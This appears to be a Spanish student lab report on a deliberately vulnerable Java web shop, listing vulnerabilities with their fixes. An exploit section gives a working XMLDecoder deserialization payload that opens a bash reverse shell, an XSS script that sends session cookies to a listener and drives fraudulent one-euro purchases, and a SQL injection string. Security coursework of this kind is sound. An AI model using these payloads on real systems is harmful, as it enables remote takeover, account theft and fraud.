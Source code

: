 ###### por Sergio Luaces Martín, Diego Dopazo García y Aarón yada yada

# Vulnerabilidades encontradas:

- CPS
	  Se ha encontrado que la CSP era demasiado permisiva.
	  Se ha solucionado aumentando las restricciones de dicha Content Security Policy:
	```java
	public class CSPInterceptor implements HandlerInterceptor {  
	      
	    @Override  
	    public boolean preHandle(HttpServletRequest request, 
							    HttpServletResponse response, 
							    Object handler)  
	        throws Exception {  
	        response.setHeader("Content-Security-Policy",   
	            "default-src 'self'; " +              //solo recursos de mi origen  
	            "img-src 'self' data:; " +         //solo imagenes de mi dominio  
	            "script-src 'self' 'unsafe-inline'; " +       //solo js de mi app  
	            "style-src 'self' 'unsafe-inline';"+      //solo css de mi dominio  
	            "object-src 'none';"+ //prohibe el uso de flash, java applets, etc  
	            "base-uri 'self'; "+               //prohibe que cambien la uri  
	            "connect-src 'self'; "+       //prohibe AJAX fuera de mi dominio  
	            "frame-ancestors 'none';"+        //prohibe clickjacking  
	            "form-action 'self';");           //solo envia forms a mi dominio  
	        return true;  
	    }       
	}	  
	```  
	 
- XSS en el login
		Se ha detectado que en varios casos donde se permite al usuario iniciar sesión, poniendo los tags de script, se puede ejecutar código arbitrario.
		Aparte de en el caso del login, también ocurre en otros casos donde se le permite al usuario escribir texto.
		Se ha solucionado...
- SQLi en el login
		Se ha detectado que el formulario de autenticación concatenaba directamente los valores introducidos por el usuario en la consulta JPQL/SQL, permitiendo modificar la query ejecutada en el servidor mediante técnicas de SQL Injection (por ejemplo, usando `admin' OR '1'='1`).  
		Esto podría permitir acceder a cuentas sin conocer las credenciales correctas o revelar información sensible de la base de datos.
		Se ha solucionado eliminando la construcción dinámica del JPQL y sustituyéndola por consultas parametrizadas, evitando que el valor introducido por el usuario pueda alterar la query.  
		En concreto, se ha reemplazado el uso de `MessageFormat.format(...)` por queries con parámetros `:email` y `:password`, utilizando `TypedQuery` y `setParameter()`:

```java
	TypedQuery<User> query = entityManager.createQuery("SELECT u FROM User u WHERE u.email = :email AND u.password = :password", User.class);
```

````java
query.setParameter("email", email); query.setParameter("password", password);
`````
		
De este modo, el input del usuario se envía de forma segura al motor JPA, imposibilitando que la consulta sea manipulada.

- File upload en la foto de perfil
		Se ha detectado que la funcionalidad de “subir imagen de perfil” aceptaba ficheros que no eran imágenes legítimas, permitiendo la subida de ficheros maliciosos (por ejemplo polyglots o archivos con payloads ocultos) que podrían llevar a la ejecución de scripts u otra actividad no deseada.
		Se ha solucionado verificando de forma exhaustiva el contenido del fichero subido usando `PngReader` de la librería **pngj**: antes de aceptar el archivo se analiza el cuerpo completo del fichero y se comprueba que cumple la estructura y los chunks válidos de un PNG. Solo se admiten ficheros que pasan esta validación; el resto se rechaza. Con ello se evita que ficheros no-PNG o PNG malformados lleguen al almacenamiento o al procesamiento posterior.
- Bussines logging en el precio a la hora de pagar
- Information disclosure (Los errores que se muestran en la página)
- Insecure Deserialization (cookie: user-info)
- Access control (puedes comentar sin haber comprado el producto)
- Validacion de datos en la capa modelo (usuario)
- Validación de datos en formularios
- Exposición de información sensible
- Vulnerabilidad en la autenticacion: contraseña muy simple (no mandado)
- Vulnerabilidad en la autenticacion: hash con salt estático 
	 Se ha detectado que en src/main/java/es/storeapp/business/services/UserService.java, existe una variable SALT definida estáticamente 
	```java
	- private static final String SALT = "$2a$10$MN0gK0ldpCgN9jx6r0VYQO"; 
	````
	 Que es usada en la generación del hash de la contraseña de un usuario:
```java
	  User user = userRepository.findByEmailAndPassword(email, BCrypt.hashpw(clearPassword, SALT));
```
    Esto provoca un fallo serio ya que se puede sitinguir donde acaba el hash de la contraseña y donde empieza el salt, permitiendo descubrir la contraseña a base d efuerza bruta probando operaciones hash en diferentes contraseñas hasta que coincida.
	Se ha solucionado generando un salt de manera aleatoria usando esta función:
````java
String hashedPassword = BCrypt.hashpw(password, BCrypt.gensalt());

        User user = userRepository.create(new User(name, email, hashedPassword, address, image));
````
- Open Redirect en el flujo de autenticación, concretamente en el parámetro next de /login?next=...  
- IDOR (Insecure Direct Object Reference) en el endpoint /orders/{id}.

# Exploits

## Reverse shell usando la vulnerabilidad de deserialización insegura en la cookie `user-info`

### Vulnerabilidades explotadas

- Deserialización insegura
### Exploit

Para llevar a cabo este exploit es necesario no tener la sesión iniciada. 
Lo primero es poner un listener con netcat de la siguiente forma: `nc -nlvp 4444` y luego hay que crear el payload codificando el siguiente XML en Base64:

```xml

<?xml version="1.0" encoding="UTF-8"?>

<java version="1.8.0" class="java.beans.XMLDecoder">

  <!-- 1) Ejecuta ProcessBuilder primero -->

  <object class="java.lang.ProcessBuilder">

    <array class="java.lang.String" length="3">

      <void index="0"><string>/bin/bash</string></void>

      <void index="1"><string>-c</string></void>

      <void index="2">

        <string>bash -i &gt;&amp; /dev/tcp/127.0.0.1/4444 0&gt;&amp;1</string>

      </void>

    </array>

    <void method="start"/>

  </object>

  

  <!-- 2) Devuelve un UserInfo válido para que el cast funcione -->

  <object class="es.storeapp.web.cookies.UserInfo">

    <void property="email"><string>victim@example.com</string></void>

    <void property="password"><string>password</string></void>

  </object>

</java>

```

Tras esto, creamos una cookie llamada `user-info` y como valor le asignamos el código anterior en Base64 como se muestra en la imagen:

![user-info](./img/cookie_user_info.png)

Una vez hecho esto, se realiza cualquier acción en la aplicación (por ejemplo, ir a otra pestaña, recargar la página, etc.) y aparecerá un error en la página web. Si entonces vamos al terminal con nuestro listener escuchando veremos que se ha establecido una conexión remota con usuario de acceso el que está ejecutando la aplicación.

![nc](./img/rev_shell_prove.png)

> (Cabe destacar que en este caso el terminal de nc se ve extraño debido a que la conexión va desde localhost a localhost.)
---
## Mediante XSS obtener cookies de usuarios autenticados y usar su cuenta para comprar productos y enviarlos a una dirección maliciosa

### Vulnerabilidades explotadas

- XSS
- Control de acceso (Access Control)
- Fallo en la validación de datos

### Exploit

Para llevar a cabo este exploit necesitaremos el siguiente payload JavaScript:

```javascript

<script>new Image().src='http://localhost:9999/exploit?c='+encodeURIComponent(document.cookie)</script>

```

Este payload se puede insertar en un comentario de cualquier producto (aunque no lo hayamos comprado) explotando una vulnerabilidad en el control de acceso, como se ve en la imagen:

![xss](./img/insert_xss.png)

Cuando un usuario visualice los comentarios de este producto, el XSS enviará la cookie `JSESSIONID` al servidor atacante, donde tendremos un script escuchando en el puerto TCP 9999.

Este script se encarga de, cuando recibe la petición con la cookie, añadir productos al carrito y comprarlos con un valor de **1 euro**, aprovechando un fallo en la validación de datos (la suma solo se calcula en el frontend, no en el backend). 
Vale la pena recalcar que en este ejemplo el único producto que se compra es el ID 3, pero se podría modificar de manera sencilla para comprar cualquier producto deseado.

En la siguiente imagen se ve cómo llega una petición a nuestro servidor después de que la víctima vea la reseña:

![peticion](./img/peticion_server.png)

Para finalizar, en las siguientes imágenes se puede ver que el exploit funcionó: la primera muestra el perfil de la víctima y la segunda la confirmación del pedido; donde se observa que el precio es de tan solo 1€ y que la dirección ha sido sustituida:

  
![perfil](./img/victim_profile.png)

![exploit_2_prueba](./img/prueba_exploit_dos.png)
